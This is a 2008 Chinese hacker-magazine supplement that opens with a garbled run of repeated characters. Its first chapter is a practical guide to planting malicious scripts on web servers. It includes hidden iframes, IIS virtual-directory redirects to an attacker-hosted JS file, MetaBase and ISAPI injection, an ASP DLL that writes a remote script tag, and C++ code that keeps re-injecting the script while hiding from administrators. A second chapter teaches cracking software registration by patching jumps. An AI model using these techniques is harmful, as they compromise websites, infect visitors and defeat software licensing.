54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\

# 骑兵手册 -- 挂马技术专谈

### 事件处理程序

Onload() 页面载入时触发
Onunload() 页面关闭时触发

这样，一般只要在JS文件里这样写：window.status='黑客手册'；，就能在IE左下角那里出现“黑客手册”的字样，而不会出现地址了。当然，如果把“黑客手册”用空格替代，IE左下角显示的就是空白了，因此，JS挂马的时候，我们可以在JS文件里写入如下代码：

```
window.status=
  "" \ndocument.write("<iframe src=http://www.baidu.com width=0 height=0></iframe>");


```

其实，我在搞入侵的时候，无意看见别人的代码是这样写的：

# 非安全·黑客手册2008第一增刊

Description:IIS administration utility that enables the configuration of metabase properties

Supported Commands. // 支持的命令，这个最重要

GET, SET, ENUM, DELETE, CREATE, COPY, APPCREATEINPROC, APPCREATEOUTPROC, APPCREATEPOOLPROC, APPDELETE, APPUNLOAD, APPGETSTATUS

可以看见，重要的就是支持的 Supported Commands 命令，我们刚刚输入的命令中就用了CREATE 这个命令。再回头来看看建立虚拟目录的命令，参数中W3SVC / 1 / Root / gxm 代表的是第一个WEB 服务地址里的虚拟目录gxm，因此我们要找的就是我们站点的WEB服务地址。

不可能IIS 里就一个站吧？现在许多用作虚拟主机的服务器，一般IIS里可能有上百个站呢！我们该怎么快速地寻找呢？本人奉献自己的经验给大家：安装IIS后，在服务器上一般都有MetaBase.xml这个文件（注意，我的XP系统里却没有这个文件，不知道是不是还得分系统。一般的服务器只要安装了IIS，都应该有这个Meta Base.xml文件），它的位置在C : \WINDOWS\system32\inetsrv下。

一般我们挂马都知道那个站的根目录吧，进入对应的目录，打开这个MetaBase.xml文件，搜索我们需要找的地址的那个站的域名，这里是搜索www.gxm520.cn，如图5所示。
大家看到了没有，那个Location = 后面的一串信息就是我们需要挂站的www.gxm520.cn里的目录了，真正应用时还应该加上root，完整的地址就是/LM/W3SVC/1540331721/ROOT。

得到了地址，下面就可以打开CMD来创建我们的虚拟不可见的目录了！命令如下，如图6所示。

```
cscript C:\Inetpub\AdminScripts\adsutil.vbs CREATE W3SVC/1/Root/gxm "IlsWebVirtualDir" 创建gxm虚拟无物理路径的目录
```

```
cscript C:\Inetpub\AdminScripts\adsutil.vbs CREATE W3SVC/1/Root/gxm/gxm.js "IlsWebVirtualDir" 在gxm虚拟目录里创建gxm.js虚拟无物理路径的目录
```

```
C:\Documents and Settings\Administrator> cscript C:\Inetpub\AdminScripts\adsutil.vbs CREATE W3SUC/1/Root/gxm "IlsWebVirtualDir"
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996-2001。保留所有权利。
created "W3SUC/1/Root/gxm"

C:\Documents and Settings\Administrator> cscript C:\Inetpub\AdminScripts\adsutil.vbs CREATE W3SUC/1/Root/gxm/gxm.js "IlsWebVirtualDir"
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996-2001。保留所有权利。
created "W3SUC/1/Root/gxm/gxm.js"


```
# 骑兵手册 -- 挂马技术专谈

接下来就是重定向目录了，命令为：cscript c:\Inetpub\adminscripts\adsutil.vbs set W3SVC/1/Root/gxm/gxm.js/httpredirect http://www.ahmd.com.cn/ADMIN/LDJT/sms.js
js

这样我们一执行，因为虚拟目录比物理路径优先，所以只要调用gxm.js这个文件，就会先访问我们虚拟目录里的这个。但是这个文件因为我们被重定向了，所以会被转到http://www.ahmd.com.cn/ADMIN/LDJT/sms.js去，因此这个sms.js文件控制了真正物理路径里的gxm.js文件。就算管理员怎么修改物理路径里的gxm.js，其结果还是去调用我们的sms.js文件，如图7、图8所示。
这样，只要我们在sms.js文件里挂马就行了，呵呵……很妙的一招吧！感谢以前的大牛们公布这招，大家要多多练习才能熟练哦！

### 3. 手动挂马文件隐藏小技巧

接下来讲本人对付一些笨蛋管理员的小招（看过本文的就不能算是笨蛋管理员了），还记得病毒是怎么隐藏自身文件的吗？它们一般就是修改注册表的相关键值，那我们何不利用下？

比如我们有个数据库连接文件conn.asp，由于每个文件都调用，因此就可以把挂马语句放在里面，然后对它进行加隐藏和只读属性（事先把挂马语句放进去）的操作。怎么加呢？在CMD模式下输入命令：attrib +r +h 文件即可。

–r –h –s 的意思就是取消指定文件或目录的只读、隐藏、系统属性，相反的，+r +h +s 就是加上只读、隐藏、系统属性。

当把文件加了隐藏属性后，一定要把“资源管理器” – “工具” – “文件夹选项”里的“显

# 非安全·黑客手册 2008 第一增刊

示隐藏文件”屏蔽掉！我们可以通过简单地修改注册表来表达达到目的。进入注册表，找到HKEY_LOCAL_MACHINESOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL下的CheckedValue值，修改成0就可以了，1是恢复。如图9所示，当修改成0后，“显示隐藏文件”就固定在不显示的那个选项上了。
这个是从病毒里学习到的小技巧，看来研究病毒还是很有用的，呵呵……进阶部分就结束了，下面还有更无赖的挂马技巧等着大家呢。

### 三、服务器上挂马技术

其实挂马肯定得在服务器上的，但这里的服务器挂马是讲利用服务器本身相关文件进行挂马，而且由于这些文件都比较特殊，一般管理员还不敢删除。在服务器上挂马，只要流量大，那个效果真是……当然，得先用netstat –an来看看连接80端口的个数，选择好目标就准备下手了。

### 1. MetaBase.xml 文件修改挂马

大家应该还记得我们前面才刚刚说过的M e t a B a s e . x m l 文件吧？位置在 C ：\WINDOwS\system32\inetsrv，它可真的很重要！首先我们必须有这个服务器的管理权限，然后打开MetaBase.xml文件，搜索DefaultDoc=
然后在DefaultDoc 的下面，DirBrowseFlags 的上面加一段话，那就是：DefaultDocFooter=

```
DefaultDoc="Default.aspx, Default.htm, Default.asp, index.htm, index.asp"
DefaultDocFooter="FILE:C:\Inetpub\wwwroot\iisstart.htm"
DirBrowseFlags="DirBrowseShowDate | DirBrowseShowTime | DirBrowseShowSize | DirBrowseShowExtension | DirBrowseShowLongDate | EnableDefaultDoc"
DownlevelAdminInstance="1"


```

# 骑兵手册 -- 挂马技术专谈

这个时候我们肯定保存不了，因为IIS还在运行当中。IIS在调用这个文件，那怎么办？我们必须停止IIS！在CMD中输入命令iisreset /stop，如图11所示，然后以最快的速度来保存文件。保存好后，在CMD中输入命令iisreset /start重新启动IIS，如图12所示，然后就等着服务器流量给你的快感吧，呵呵……
# 2、ISAPI加载挂马

什么是ISAPI，它是互联网服务应用程序编程接口（Internet Server Application Programming Interface）的缩写，是一组API函数，可以用来开发扩展IIS程序。

这种方法需要使用一些工具程序，步骤是：首先打开GetID.exe获取注册号，然后运行IIS_AD.exe生成DLL文件，加载到IIS应用池就OK了。有了它，服务器任何一个页面都会有广告代码或者网马代码。

我们先看看初始的IIS_AD.ini文件里的内容：

```
Copy code
[IIS_AD]
ADjs=<script language='javascript'>alert('Welcome to User IIS AD !');</script>


```

现在开始注册，打开GetID.exe，然后点获取，获得注册号，如图13所示。
复制下注册号，然后打开IIS_AD.exe，把注册号粘贴进去，接着把时间调的远一点，最后点“生成”，如图14所示。
接着我们修改IIS_AD.ini的文件，它本来是：

```
[IIS_AD]


```

[IS_AD]

ADjs=<iframe src=http://www.rootkit.com.cn width=600 height=700></iframe>

下面我们要把ad.dll和iis-ad.ini这两个文件藏的深一点，打开IIS（在“控制面板” – “管理工具” – “Internet 信息服务”），在要挂马的站点上按鼠标右键选择“属性”，在“ISAPI”标签项中，把我们的DLL文件添加进去，如图15所示。
图15

好了，现在随便访问这个站的一个页面就会执行我们的代码，我在XP下的IIS测试通过。在2003下，我要说点事情，加载DLL文件的时候，先把DLL和INI放到一个目录，然后给予足够的权限，再加载ISAPIDLL文件。接着在IIS下“允许所有未知ISAPI”，在WEB服务扩展下加载DLL文件，然后重启IIS。

### 四、GXM挂马时的辅助工具与技巧

最后一大部分了，也是我自己在挂马中所领悟出来的超级独家经验大放送的时候了，呵呵。可能技术不太高超，但也是自己的一点心得，与大家分享，希望大家学好。

# 1、ASP封包挂马

大家知道吗？有些高级的ASP代码是封装在DLL文件里面的，比如一些自己开发的ASP组件，目的就是不公布代码，而且一些自己用ASP脚本写的常用函数也可以封装在DLL里。挂马技术就是为了让管理员看不到我们的iframe标签，因为有iframe才能挂马。

不知道这种ASP封包挂马技术大家自己动手搞过没有？反正是我自己想出来的，就算别人以前也知道，那也是思路相同而已，绝对不存在抄袭，我这里就教给大家吧。前提条件是要我们有管理员权限（毕竟DLL文件是需要注册的），和目标必须是用ASP脚本建立的站。

其实也很简单，就是利用VB写一个简单的ASP封包程序而已。至于代码我就不解释了，就教下怎么操作就行了。首先我们需要安装一个完整的VB编译器，打开VB，选择ACTIVEX

# 骑兵手册 -- 挂马技术专谈
DLL工程，如图16所示。

然后选择“打开”，在上面点“工程”－“引用”，进入选择页面，如图17所示。选择“Microsoft Active Server Pages Object Library”，然后“确定”即可。菜鸟不用学习代码是什么意思，反正我是花了很长时间反复测试，终于编译成功了，大家就用我的代码吧。

```
Private MyScriptingContext As ScriptingContext
Private MyResponse As Response
Public Sub OnStartPage(PassedScriptingContext As ScriptingContext)
Set MyScriptingContext = PassedScriptingContext
Set MyResponse = MyScriptingContext.Response
End Sub
Public Sub OnEndPage()
Set MyResponse = Nothing
End Sub
Public Sub start()
MyResponse.Write "<script language=javascript src='http://127.0.0.1/gxm.js'></script>"
End Sub


```

直接把以上代码复制进去，大家如果需要改的话，就改 MyResponse.Write “<script language=javascript src='http://127.0.0.1/gxm.js'></script>” 这句，意思应该都能明白吧？

# 非安全·黑客手册2008第一增刊

ASP是需要调用的，那就需要调用名。其实这些组件的名字改工程名就是了，在右边选择工程名，我改成了gxm，如图18所示。
图18

然后再修改类名为gxm1，调用方法如下：

```
<%\nSet ObjReference=Server.CreateObject(``gxm.gxm1``)\nObjReference.start\nSet ObjReference = nothing\n%>


```

## 骑兵手册——挂马技术专谈

现在我们去访问一下看看，效果如图20所示。

呵呵，在实践中，一般conn.asp这样的数据库连接文件不是也要调用组件吗？我们就写到这里去迷惑管理员，这样就查不到iframe标签了！还有两个小的心得，休息下，我们继续。

### 2. 修改最后文件修改日期工具

前面刚刚给大家介绍的利用ASP封包挂马，只要修改下conn.asp文件进行调用就行了。不过管理员只要通过查看修改的“文件时间”就能知道什么文件被修改过，然后覆盖掉自己觉得可疑的文件，我们的成果就又完蛋了！因此我们不能让管理员察觉到时间的不对，这里就来讲讲修改文件的最后修改日期。

我知道一些ASP木马上有这类功能，但是有的时候因为权限的问题（很多时候需要管理员权限）而无法修改，虽然提示却是成功了，呵呵。小菜我自己写了一个程序，就直接奉献给大家了，执行后就会出现说明，如图21所示。
一般我修改好conn.asp文件后，必须对它修改文件最后修改日期。这个小工具的参数有7个，大家应该都能看得懂，下面我为大家演示下。比如我要修改的文件叫cmd.txt，然后按照如图22所示进行命令执行就可以了。
### 3. 监控特定文件自动插马的无赖工具

这个确实是个无赖，呵，以前碰到一个服务器上的管理员，他很会查我的代码，因此为了对付它，我特别自己写了个程序。其实也就是监控指定的文件，如果没有发现挂马语句，就马上插进去。

程序的流程是这样的：“先检查文件里有无挂马语句，没有的话，就给目标足够的访问文件的权限，取消对自身的拒绝权限。以所有权限打开文件，定位到文件最后位置进行插马。接着再检测，有了就跳过，等段时间再检测。

我的技术不足，就是不知道怎么利用 API 函数来操作权限设置，无奈之下，只好在程序工程中用命令来代替了。这里把代码贴出来：

```
#include "stdafx.h"
#include "process.h"
#include "windows.h"
#include "string.h"
#include "iostream.h"
#include "fstream.h"
char path2[256]="E:\website\default.asp";
char guama[256]="\n<script language=javascript src='http://www.ahmd.com.cn/ADMIN/LDJT/tg.js'><\script>";
BOOL APIENTRY DllMain( HANDLE hModule,
      DWORD ul_reason_for_call,
      LPVOID lpReserved
    )
{
switch ( ul_reason_for_call )
{ 
case DLL_PROCESS_ATTACH:
{ 
while(1)
{
ifstream ifs(path2);
char FileContent[5000];
memset(FileContent ,0,5005000); // 初始化 FileContent
ifs.read(FileContent ,5000); // 读取数据
ifs.close(); // 关闭 ifstream

## 骑兵手册——挂马技术专谈

```
default:
return TRUE;
}
return TRUE;
```

没有基础的朋友不要紧，只要安装个 VC++6.0，然后建立一个 EXE 工程或 DLL 工程，主要代码就在里面了。我贴出来的是 DLL 工程代码，因为我有个插入进程的 EXE 程序，可以把 DLL 插进去。不然很容易被管理员结束进程，从而导致无法监控。

当然，选择 EXE 工程的朋友，网上已经有些工具，能让进程隐藏、无法删除，或者 rootkit 等，大家喜欢怎么弄就怎么弄啦，只需要把程序的以下 3 处地方进行修改即可。

```
char path2[256]="E:\\website\\default.asp";
char path1[256]="E:\\website\\default.asp ";
char guama[256]="\n<script language=javascript src='http://www.ahmd.com.cn/ADMIN/LDJT/tg.js'></script>";
```

上面这段代码的前两个都是我们需要监控的文件，第三个就是要插入的挂马代码，最终编译一下就 OK 了。其实这个办法只是为了让管理员郁闷而已，因为管理员每次都能查。几天后，管理员肯定重装系统，如果你要折磨他的话……

这部分可能对于真正的挂马菜鸟来说是有难度，毕竟是我的少部分心得而已，还是建议先把前面大家都学的学好，呵呵！

### 五、最后总结

我记得某期 rabbitsafe 兄弟写了一篇屏蔽 iframe 挂马的文章，其实以前管理员也是这么对我的，这东西还不错，要是配上我的组件封包这样调用，那效果更佳了。为什么呢？因为管理员把 iframe 标签当成是必删品，我们挂马的人碰到那屏蔽的代码也和管理员一样，看见了就删，所以攻防永远是个永恒的话题。呵呵，希望管理员能利用上 ASP 封包组件来调用屏蔽 IFRAME，这样更大的程度上保护网站的访问用户。


# 边破边解 -- CRACKER 实例大全


在 04 年以前，破解在菜鸟的心目中一直是充满神秘色彩的，但是由于技术的发展和进步，各种破解相关的文章如雨后春笋般浮出水面，慢慢地揭开了破解神秘的面纱。这一章，就让我们展开一段破解的神奇旅程吧！

我想问下各位菜菜们，你真正接触过破解吗？你知道学习破解需要掌握什么样的知识吗？你的基础是 0 吗？你对破解感兴趣吗？

如果你对破解很感兴趣，但是基础为 0 ，又很想学习破解的话，那么以下内容是绝对不容错过的！我们以基础知识为主，将“爆破->注册机、补丁->算法”作为主要线索，加上使用大量实例，将带领大家进入神秘的破解天堂。

### 一、基本理论知识

首先我想说的是，你不能因为一点点困难而被吓倒，很多人都是因为信心不足而放弃破解之路的，所以我们必须要正视它，那么接下来的路程，你才不会走得那么辛苦。

### 1.1 软件保护方式

下面先来了解一下常见的软件保护方式，一般分为硬件保护方式和软件保护方式。

### 1.1.1 硬件保护方式

基于硬件的软件保护方式包含多种功能，主要有认证过程、数据加密、访问控制、唯一的序列号、密钥产生、可靠的数据传输和硬件识别。这些方式的主要目的就是为了防止硬件被复制和软件被破解，这种保护方式具有很好的安全性，所以很多商业软件都采取这种方式，主要有加密狗（或者称加密锁）和光盘、软盘（现在使用软盘的计算机已经非常之少）保护这两种典型方式。

加密狗是一种智能性加密产品，又被称为加密锁、USB 狗等等，它是一个可以安装在并口、串口或 USB 接口上的硬件设备。和基于软件的保护方式相比，它具有更高的安全性，但是对于使用被保护软件的最终用户而言，就不得不被迫接受在自己的机器上安装相应的保护硬件和驱动程序，使得易用性上存在一定问题。还有，和软件保护方式相比，硬件保护价格比较高。

另外，有很多游戏软件是采取光盘保护方式的，被保护软件的部分密钥可以放在可移动的软盘或光盘当中，只有当软盘或光盘存在的时候，被保护软件才可以运行。相信常玩游戏的朋友一定知道此类保护方式吧？

### 1.1.2 软件保护方式

和硬件保护方式相比，此类保护方式在价格上是比硬件保护方式低很多，但是在安全性上却是差很多。大多数的共享软件均采取此类方式，一般分为注册码、许可文件 (keyfile 验证)、许可服务器（也就是平时大家说的网络验证）等方式。

对于注册码，相信大家并不陌生了，因为平时我们所使用到的软件，大部分都是使用注册码来注册，然后成为注册版本的。

软件作者通常会采取获得比如网卡号、硬盘序列号、计算机名称等信息，通过自行设计的或者直接使用成熟的算法计算出注册码，通常是一机一号。如果注册信息不正确，还会出现诸如 NAG 窗口、时间限制、次数限制、功能限制等情况，使得我们无法完全使用该软件的所有功能。

许可文件和注册码方式比较类似，通常是针对用户的一些信息，以及允许软件使用的某种特定功能的一些信息，使用非对称算法的私钥对许可证文件进行签名，而公钥嵌在软件代码中。当软件运行时，会检测许可文件是否存在。

许可服务器主要应用于网络环境，比较典型的软件就是 pcshare 了，相信大家并不陌生吧？

### 1.2 软件破解方式

一般来说，破解方式分为注册码破解和爆破。注册码破解又分为通过明文获得注册码和通过算法获得注册码两种；而爆破又分为暴力破解和完美破解。

通过明文获得注册码，一般是指通过如 winhex 之类的能够获取内存中明文信息的工具获得注册码；

通过算法获得注册码，一般是指通过对程序调试，对代码进行分析后，能够逆向出注册算法流程，最终通过注册算法计算出注册码。

暴力破解，一般是指通过强行修改软件的代码，进而改变注册算法的流程，达到软件注册的目的，比如修改关键跳来达到暴力修改的目的。但这种方式对于某些软件爆破后，再重新运行该软件，还是会显示未注册字样（个人并不推荐此种方式）。

完美破解，一般是指通过分析代码，修改标志位，进而达到一种更加完美的方式。因为有些软件在暴力破解后，也不一定能够使用全部功能，所以学习爆破，我觉得应该学习如何完美破解。

### 1.3 软件破解的经典比较句式

句式一：

```
mov eax [ xxxx ] //// 这里可以是地址．也可以是其它寄存器
mov edx [. xxxx ] //// 同上．通常这两个地址就储存着重要信息
call xxxxxx //// 关键 call
test eax eax //// 测试
iz (jnz) 或 jne (je)) //// 关键跳转．根据上面结果会跳去指定地方
```

句式二：

```
mov eax [ xxxx ] //// 这里可以是地址．也可以是其它寄存器
mov edx [. xxxx ] //// 同上．通常这两个地址就储存着重要信息
call xxxxxx //// 关键 call 
je (je)) //// 关键跳转．根据上面结果会跳去指定地方
```

# 边破边解 -- CRACKER 实例大全

# 句式三：

```
mov eax [ xxxx ]
// 这里可以是地址，也可以是其它寄存器
mov edx [ xxxx ]
// 同上，通常这两个地址就储存着重要信息
cmp eax,edx
// 真假码比较，通常这里是十进制比较
jnz (jz)
// 关键跳转，根据上面结果会跳去指定地方
```

以上三种句式，堪称为经典句式，如果你在代码中看到如此类似的结构，那么很有可能就是注册信息出没的地方。但代码始终是代码，是由人来编写的，不是所有的关键地方都如此，这与软件作者的思想是有很大关系的。但是能出现以上三种情况的代码，机率还是非常大的。

另外，还有一个 VB 中比较常见的句式，大家可以注意下：

```
push xxxx
// 假注册码
push xxxx
// 真注册码
call [MSVBVM60|_vbaStrCmp] 或 MSVBVM60._vbaStrComp
// 比较函数
test eax,eax
// 测试
jnz xxxx
// 关键跳转，根据上面结果会跳去指定地方
```

### 1.4 简单的汇编指令

- cmp a,b // 这是一个比较语句，意思是a与b比较，比如比较真假注册码、比较文件大小、比较用户名位数等等。
- mov a,b // 这是一个赋值语句，意思就是将b送入a处，执行后，结果是a=b
- call xxxx // 这是一个子程序，一般用来调用某代码
- je 或 jz // 相等则跳
- jne 或 jnz // 不相等则跳
- jmp // 无条件跳转，当代码执行到此处，无论什么情况都会跳
- jb // 小于则跳
- ja // 大于则跳
- jg // 大于则跳
- jge // 大于等于则跳
- jl // 小于则跳
- jle // 小于等于跳
- nop // 无作用指令，当代码执行到此处，无论什么情况都不会跳

以上是一些比较常见的指令及解释，大家一定要记住，否则当调试执行时，忘记了指令意思可是非常麻烦的事情。

### 1.5 破解必须了解的概念

### (1) 什么是断点及下断

断点就是程序被中断的地方。中断就是由于有特殊事件（中断事件）发生，计算机暂停当前的任务（即程序），转而去执行另外的任务（中断服务程序），然后再返回原先的任务继续执行。一般使用 F2 下普通断点，另外还有内存访问断点、内存写入断点、硬件断点等等。

### (2) 什么是 API 函数

英文全称为 Application Programming Interface，简称为 API，中文全称为 “应用程序编程接口”，是一个系统定义函数的大集合，它提供了访问操作系统特征的方法。比如 bp GetDlgItemText、bp MessageBox、bp rtcMsgBox 等等。

Win32 API 函数包含在动态链接库 (Dynamic Link Libraries, 简称 DLL) 中，即包含在 kernel32.dll、user32.dll、gdi32.dll 和 comctl32.dll 中。因为程序基本都会调用系统函数，所以在一些情况中，我们可以使用这些 API 函数来快速达到破解的目的。

### (3) 什么是壳

一种包在程序外面旳东西，就像一层衣服。壳能够将文件（比如 exe）包住，然后在文件被运行时，首先由壳获得控制权，然后释放并运行包裹着的文件体。很多壳能对自己包住的文件体进行加密，可以防止杀毒软件的查杀。

### (4) 什么是领空

这是一个非常重要的概念，如果你没搞懂的话，就可能在程序领空和系统领空上打转，就像进入了迷宫一样。所谓程序的领空，说白了就是程序自己的地方，也就是我们要破解的程序自己程序码所处的位置；而拥有系统领空的，一般都是一些 DLL 文件。比如程序领空中，地址一般是 004xxxx 开头的，而系统领空中，地址一般是 007xxxx 开头的，在 OD 中很容易可以分辨出来。

### (5) 什么是 crackme

一些公开给别人尝试破解的小程序，制作 crackme 的人可能是程序员，想测试一下自己的软件保护技术；也可能是一位 cracker，想挑战一下其它 cracker 的破解实力；也可能是些正在学习破解的人，自己编一些小程序给自己破。

### (6) 什么是重启验证

是指当你输入了注册信息之后（无论真假），程序会自动提示你重新启动软件，或者出现 “你的注册信息已经保存” 的提示。当然，有时候它也不会提示你，当你发现所属情况满足前面所说的条件之一，很有可能就是重启验证。

### (7) 什么是爆破点

学习破解的必经阶段，通过修改关键跳转（比如 jz 改为 jnz，jnz 改为 jz 等），可以达到我们想去的地方，一般当然就是常去成功的地方咯。

### (8) 什么是 OEP

OEP 就是程序的真正入口处，在脱壳的时候，一般都会找 OEP。常见的 OEP 入口代码应该是能够很快判断出来的，这样有利于脱壳，这个要靠平时的积累和收集。

### (9) 什么是自校验

自校验很多时候基本出现在脱壳之后，运行脱壳后的程序，它可能会一闪而过，又或者闪也不会闪。它会对程序自身进行身份验证，如果程序的大小、名称等被修改的话，程序有可能会一闪而过，所以在脱壳后，还必须把自校验去掉才能使程序正常运行。

### (10) 什么是 Inline Patch

就是在程序里面直接打上补丁，即使程序被加了壳，也可以使用这种技术。这样就能够实现不脱壳也能够破解程序，是一种现在非常流行的破解补丁技术。

### 二、爆破基础

经过前面一系列的基础知识学习后，相信大家对于破解也有一定的认识了，本节将为大家介绍爆破方面的内容。我经常在想，应该如何才能够表达出更好的意思来，所以这次打算以实例为主线，为大家讲述爆破的内容。由于破解所需要的工具非常多，所以经常使用到的工具和知识点，我会详细地为大家讲述，大家不必担心，慢慢接收消化吧！

### 2.1 实例一

本实例所需要的工具：Peid、OllyDbg

Peid是一个查壳工具，能够侦测出几乎所有的壳，其数量已超过 470 种 PE 文件的加壳类型和签名，新版本增加了命令行的操作支持，使用非常方便。其增加的病毒扫描功能，是目前各类查壳工具中，性能最强的。如果你的 Peid 不能正常运行，请查看是否包含这几个库文件：mfc70.dll、msvcr70.dll、rtl70.bpl、vcl70.bpl。运行后，其界面如图 1 所示。


将 Peid 集成到右键的方法是点击 “Options” 选项，然后选中 “Register Shell Extensions”（打上勾），最后别忘了点击 “Save”，否则所做的努力就白费了，如图 2 所示。


这样集成到右键后，当需要对某程序查壳时，只需在程序文件上按鼠标右键，选择 “Scan with peid” 就可以了，非常方便实用。另外，Peid 也支持插件功能，大家可以把自己收集的一些 Peid 插件放到 plugins 目录下即可轻松使用。对于 Peid，暂时就介绍这么多了，下面介绍一下 OllyDbg。

OllyDbg（以下简称 OD）是运行在 Windows 系统下的一个单进程、多线程的 ring0 级调试工具。它可以调试 PE 格式的执行文件及动态链接库，并可以对其打补丁。它结合了动态调试和静态分析，而且 OD 也比较容易上手，非常适合初学者学习。所以本文内容中的代码分析基本都是用 OD 作为讲解，至于其它的静态分析工具，如 W32dasm、IDA 等，则不在讨论范围内，如果要学习它们，你可以从网络上搜索更多的资料。

对于初学者，掌握好 OD 的运用是非常重要的。运行 OD，界面如图 3 所示。


整个界面一般分为五个窗口，左上角是代码窗口、左中部是信息窗口、左下角是数据窗口、右上角是寄存器窗口，右下角是堆栈窗口。

代码窗口一般显示被调试程序的代码；

信息窗口是在动态调试时，高亮显示代码的值、API 函数调用提示、跳转是否实现等各种信息；

数据窗口是以十六进制和字符方式显示程序在内存中的数据

## 非安全·黑客手册 2008 第一增刊

壳，继续我们的下一步。接着随便乱注册程序，输入用户名nohack 和注册码123456，注册后结果如图 8 所示。


从图 8 中可以发现，程序提示说 “Try again, HOE”，意思就是说再来一次吧，失败了。我的三步曲已经走完两步了，剩下一步是啥？当然是 O D 载入分析啦！载入后，代码入口处如图 9 所示。


这是一个标准的Borland C++ 程序入口点，由上面的代码来看，即使不使用查壳工具，也能辨别出这是一个Borland C++ 程序。接着在代码窗口按鼠标右键，按照如图10所示进行选择。


这是罗聪编写的一个超级字符串搜索插件，如果 “ASCII” 搜不出信息，可以选择下面的 “UNICODE” 试试。搜索后，我们可以在最上面几行发现有用信息，如图11所示。


看到 “Try again, HOE” 是不是有点熟悉呢？没错，就是我们刚才随便乱注册时看到的提示信息，我们就从这里作为切入点着手。双击 “Try again, HOE” 去到代码窗口，通过代码来分析一下：

## 边破边解--CRACKER实例大全

```
004011CF E8 56770000 call <jmp.&USER32.GetDlgItemTextA> /// 获取文本信息
004011D4 6A 19 push 19
004011D6 8D45 C8 lea eax,dword ptr ss:[ebp-38]
004011D9 50 push eax
004011DA 6A 66 push 66
004011DC FF75 08 push dword ptr ss:[ebp+8]
004011DF E8 46770000 call <jmp.&USER32.GetDlgItemTextA> /// 获取文本信息
004011E4 8D55 C8 lea edx,dword ptr ss:[ebp-38]
004011E7 52 push edx
004011E8 8D4D E4 lea ecx,dword ptr ss:[ebp-1C]
004011EB 51 push ecx
```

这段代码主要是获取文本信息，由GetDlgItemTextA 函数来完成，也就是获取用户名和注册码信息了，然后将它们压栈。获取它们有什么用呢？当然是用来计算验证，是否符合注册算法流程，本文不讨论算法问题，所以这里不作讨论。

在一些软件注册流程代码上，我们可以经常见到这段代码：

```
004011EC E8 77010000 call 实例一.00401368 /// 这是一个关键call
004011F1 83C4 08 add esp,8
004011F4 84CO test al,al
004011F6 75 15 jnz short 实例一.0040120D /// 这是一个关键跳转
004011F8 6A 00 push 0
004011FA 68 45914000 push 实例一.00409145 ; HOEBAG
004011FF 68 36914000 push 实例一.00409136 ; Try again, HOE /// 错误提示信息
00401204 6A 00 push 0
00401206 E8 37770000 call <jmp.&USER32.MessageBoxA> /// 错误对话框
0040120B EB 2C jmp short 实例一.00401239
004012
```

看完完整段代码，基本可以知道程序的大概流程了：首先获取文本信息，然后经过一个关键call分析计算，得出结果由00004011F6处执行结果。如果吻合就注册成功，反之则注册失败。

整段代码可以说是一个非常经典的代码，在爆破这里，我们根本就不需要下断点就能分析出一个爆破结果来，关键处就是004011F6。

还记得前面我们讲过的理论知识吗？还记得j n z 的意思吗？不记得没关系，这里再次复习巩固一下。j n z 是不相等就跳的意思，这一跳啊，就能跳到注册成功那里去了。爆破的思想就是改逆，比如说这里结果不相等就跳到成功处，而正常的是，结果不相等跳到失败处。因为我们想要成功而不是失败，所以我们需要想个法子，将程序流程强制修改成结果不相等就跳到成功处。

不知道大家还记得有一个相等就跳的指令没有？没错，那就是je了，je 就是相等就跳。我们现在是，jnz 这个指令它是没有实现的，换句话说，程序执行到这里，这个跳转没


## 非安全·黑客手册2008第一增刊

有实现，所以程序就执行到失败的地方了。

